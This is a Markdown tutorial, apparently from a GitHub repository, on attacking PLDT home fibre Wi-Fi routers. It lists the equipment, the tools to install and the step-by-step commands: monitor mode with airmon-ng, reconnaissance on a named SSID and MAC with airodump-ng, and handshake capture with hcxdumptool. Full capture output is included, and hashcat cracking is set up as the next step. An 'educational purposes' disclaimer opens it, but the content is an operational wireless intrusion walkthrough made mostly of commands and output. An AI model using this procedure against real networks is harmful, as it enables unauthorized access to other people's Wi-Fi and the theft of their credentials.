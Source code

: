 ### How to Hack PLDTWIFI Default Credetials (PART1)

Author's Warning:
	- This video is for EDUCATIONAL PURPOSES ONLY. I own all equipment used for this demonstration. Only use the tools demonstrated in this video against networks you have permission to attack.

#### Requirements

1. TPLink AC600 (or any relevant wifi adapter) that can enable monitor mode.
	1. Other wifi adapters include: Alfa AWUS036ACH, Panda PAU05
	   

![](../img/Pasted%20image%2020220823192852.png)

2. Kali Linux Distro, or any other Linux Distro
3. Windows powershell


#### Steps

1. Open Linux OS in a virtual machine setting (using vmware, or  virtualbox). Then login to the machine and spawn a terminal, like so:
   

![](../img/Pasted%20image%2020220823192907.png)


![](../img/Pasted%20image%2020220823192919.png)

2. Check if the wifi adapter is connected and enabled in the machine. If you are using vmware workstation, you may check the status of the wifi adapter below, and status must be connected:

![](../img/Pasted%20image%2020220823192932.png)

3. Check if the wireless interface is up. On the terminal, type `lsusb`  and `iwconfig` to verify, like so:

![](../img/Pasted%20image%2020220823193002.png)
	As you can see, in our case, the bus 001 device is registered as Realtek RTL8811AU [Archer T2U Nano]. Further verification on iwconfig shows wlan0 interface with Mode: Managed.

4. Prepare the tools needed for the attack. The tools are the following:
	1. Check if repositories are updated. Perform `sudo apt-get update`
	 ![](../img/Pasted%20image%2020220823193018.png)
	2. Perform repositories upgrade. Use `sudo apt-get upgrade`
	   ![](../img/Pasted%20image%2020220823193041.png)
	3. airmon-ng - this is natively installed on Kali. Otherwise, perform `sudo apt-get install airmon-ng` to install the package.
	   
	4. hcxdumptool - perform `sudo apt-get install hcxdumptool`, like so. If there is no repository, you can perform `git clone https://github.com/ZerBea/hcxdumptool`
	   ![](../img/Pasted%20image%2020220823193106.png)
	5. hcxpcapngtool - perform `sudo apt-get install hcxpcapngtool`, like so. If there is no repository, you can perform `git clone https://github.com/ZerBea/hcxtools`
	   ![](../img/Pasted%20image%2020220823193127.png)
	6. airodump-ng - this is also native in Kali, however if you dont have this repository, perform `sudo apt-get install airodump-ng`
	7. hashcat - perform `sudo apt-get install hashcat` on Linux and go to https://hashcat.net/hashcat/ on Windows.
	   
	   ![](../img/Pasted%20image%2020220823193147.png)
5. Enable Wifi adapter in Monitor Mode. You can do this by performing `sudo airmon-ng check kill` first, then `sudo airmon-ng start wlan0`, like so
	   ![](../img/Pasted%20image%2020220823193204.png)
	   As you can see, after performing the syntax, upon performing `iwconfig`, the mode changed from "Managed" to "Monitor".

6. Perform reconaissance. Use the syntax `sudo airodump-ng wlan0` to scan for other wireless adapters:

	Another helpful tip: you can use `sudo airodump-ng wlan0 --band a` to scan 5GHz wifi adapters:
	
	![](../img/Pasted%20image%2020220823193227.png)

	The SSID that we will be attacking: PLDTHOMEFIBR5GBCRxh.
	Also, take note of the mac address. We will be using this later.

7. Perform further enumeration to filter only the mac address of the attacking router. Use `sudo airodump-ng wlan0 --band a -d 24:91:BB:40:62:44`, like so. Dont quit the monitoring:
   ![](../img/Pasted%20image%2020220823193242.png)
   Take note of the channel (CH) number, we will be using it later.
8. Open up another terminal. Then use the syntax `sudo hcxdumptool -i wlan0 -o test.pcapng --enable_status=1 -c 149`
   Where: 
	   -i = interface
	   -o = output file
	   --enable_status = filter only the needed protocol (1 is used for PKMID+EAPOL)
	   -c = channel
Once performed, wait patiently until you can see an out of the blue notification like this:

`07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M2M3 EAPOLTIME:7498 RC:2 KDV:2]

If you get it, you have now captured the password hash of the attacking wifi adapter!

```
──(kali㉿kali)-[~]
└─$ sudo hcxdumptool -i wlan0 -o test.pcapng --enable_status=1 -c 149
[sudo] password for kali: 
initialization of hcxdumptool 6.2.6 (depending on the capabilities of the device, this may take some time)...
interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
PHYSICAL INTERFACE........: phy0
INTERFACE NAME............: wlan0
INTERFACE PROTOCOL........: unassociated
INTERFACE TX POWER........: 0 dBm (lowest value reported by the device)
INTERFACE HARDWARE MAC....: 14ebb6ce0279 (not used for the attack)
INTERFACE VIRTUAL MAC.....: 5a512829a09f (not used for the attack)
DRIVER....................: rtl88XXau
DRIVER VERSION............: 5.18.0-kali5-amd64
DRIVER FIRMWARE VERSION...: 
openSSL version...........: 1.0
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ACCESS POINT (ROGUE)......: 1011112cbeb4 (BROADCAST WILDCARD used for the attack)
ACCESS POINT (ROGUE)......: 1011112cbeb5 (BROADCAST OPEN used for the attack)
ACCESS POINT (ROGUE)......: 1011112cbeb6 (used for the attack and incremented on every new client)
CLIENT (ROGUE)............: b025aa87c352
EAPOLTIMEOUT..............: 20000 usec
EAPOLEAPTIMEOUT...........: 2500000 usec
REPLAYCOUNT...............: 65134
ANONCE....................: 51a04fa9485a0fc4bc9ef7a2cc7687146476cfe354e02b804015a0cc37c90f97
SNONCE....................: 981d9b2fb4486c9c1b2d0215fe5c4c59b4b49f183ee225e71f3838ed433edd74

TIME     FREQ/CH  MAC_DEST     MAC_SOURCE   ESSID [FRAME TYPE]
07:05:54     ERROR: 1 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:05:55     ERROR: 2 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:05:56     ERROR: 3 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:05:57     ERROR: 4 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 556000000]
07:05:58     ERROR: 5 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:05:59     ERROR: 6 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:00     ERROR: 7 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 562000000]
07:06:01     ERROR: 8 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 566000000]
07:06:02     ERROR: 9 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:03     ERROR: 10 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
07:06:05     ERROR: 11 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 576500000]
07:06:06     ERROR: 12 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 580500000]
07:06:07     ERROR: 13 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 582500000]
07:06:08     ERROR: 14 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 586500000]
07:06:09     ERROR: 15 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 518000000]
07:06:10     ERROR: 16 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 520000000]
07:06:11     ERROR: 17 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 522000000]
07:06:12     ERROR: 18 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 524000000]
07:06:13     ERROR: 19 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 526000000]
07:06:14     ERROR: 20 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 528000000]
07:06:15     ERROR: 21 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:06:16     ERROR: 22 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:06:17     ERROR: 23 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:06:18     ERROR: 24 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 554000000]
07:06:19     ERROR: 25 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 556000000]
07:06:20     ERROR: 26 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:06:21     ERROR: 27 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:22     ERROR: 28 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 564000000]
07:06:23     ERROR: 29 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 566000000]
07:06:24     ERROR: 30 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:25     ERROR: 31 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
07:06:26     ERROR: 32 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 572000000]
07:06:28     ERROR: 33 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 578500000]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M1M2 EAPOLTIME:4275 RC:1 KDV:2]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M2M3 EAPOLTIME:7498 RC:2 KDV:2]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M3M4ZEROED EAPOLTIME:62 RC:2 KDV:2]
07:06:29     ERROR: 34 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 580500000]
07:06:30     ERROR: 35 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 582500000]
07:06:31     ERROR: 36 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 586500000]
07:06:32     ERROR: 37 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 520000000]
07:06:33     ERROR: 38 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 522000000]
07:06:34     ERROR: 39 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 524000000]
07:06:35     ERROR: 40 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 528000000]
07:06:36     ERROR: 41 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:06:37     ERROR: 42 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:06:38     ERROR: 43 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:06:39     ERROR: 44 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 554000000]
07:06:40     ERROR: 45 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:06:41     ERROR: 46 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:42     ERROR: 47 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 564000000]
07:06:43     ERROR: 48 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:44     ERROR: 49 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
^C
terminating...
49 driver errors encountered
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

